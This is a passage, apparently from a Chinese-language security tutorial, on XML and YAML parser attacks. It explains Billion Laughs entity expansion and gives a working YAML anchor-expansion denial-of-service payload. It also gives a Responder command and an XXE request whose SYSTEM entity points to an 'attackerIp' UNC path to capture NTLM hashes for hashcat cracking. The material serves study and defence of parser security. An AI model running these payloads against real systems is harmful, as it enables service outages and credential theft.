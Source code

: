 如以上代码所示，在 XMl 中定义了一个实体 lol9，它的值包含了十个实体 lol8 的值，而每个 lol8 又包含了十个 lol7 的值...最后产生 10 亿个“lol”字符串，占用内存约高达 3GB。

#### [Yaml Attack](#toc_yaml-attack)

```bash
a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
```

#### [Quadratic Blowup Attack](#toc_quadratic-blowup-attack)

[![img](assets/1698894099-f02504b193779908ca3e3bfefdd27d26.png)](https://storage.tttang.com/media/attachment/2022/11/14/6a0cc729-4ae0-4f10-a72c-95220d27957d.png)

#### [获取 NTML](#toc_ntml)

在 Windows 主机上，可以通过设置响应程序来获取 web 服务器用户的 NTML 哈希。py 处理程序：

```bash
Responder.py -I eth0 -v
```

然后发送以下请求：

```bash
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM 'file://///attackerIp//randomDir/random.jpg'> ]>
<data>&example;</data>
```

接着便可以尝试使用 hashcat 破解哈希
